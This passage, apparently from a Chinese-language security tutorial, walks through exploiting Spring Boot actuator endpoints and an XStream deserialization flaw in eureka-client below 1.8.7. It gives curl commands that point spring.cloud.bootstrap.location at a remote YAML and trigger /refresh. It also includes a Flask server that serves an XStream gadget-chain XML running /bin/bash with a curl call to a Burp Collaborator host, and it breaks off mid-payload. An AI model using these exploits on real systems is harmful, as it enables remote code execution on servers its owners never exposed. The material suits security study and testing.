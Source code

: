 **(2) 利用**

```plain
curl -X POST --data 'spring.cloud.bootstrap.location=http://127.0.0.1:9091/example.yml' localhost:9092/env
```

刷新即可成功触发

```plain
curl -X POST localhost:9092/refresh
```

[![](assets/1703152930-a55d14946a30eef8bf96233a4565e0bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111847-3a428c44-d176-1.png)

- - -

#### **2.eureka xstream deserialization RCE**

```plain
cd springboot-eureka-xstream-rce
mvn spring-boot:run
```

> 影响版本: eureka-client < 1.8.7
> 
> 目前最新版:3.03

**(1)编写利用脚本**

```plain
#!/usr/bin/env python
# coding: utf-8

from flask import Flask, Response

app = Flask(__name__)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['GET', 'POST'])
def catch_all(path):
  command = "curl i5o45whthqsvd5uhahnx5p0z9qfh36.burpcollaborator.net"
  xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                       <string>/bin/bash</string>
                       <string>-c</string>
                       <string>{command}</string>
                    </command>
```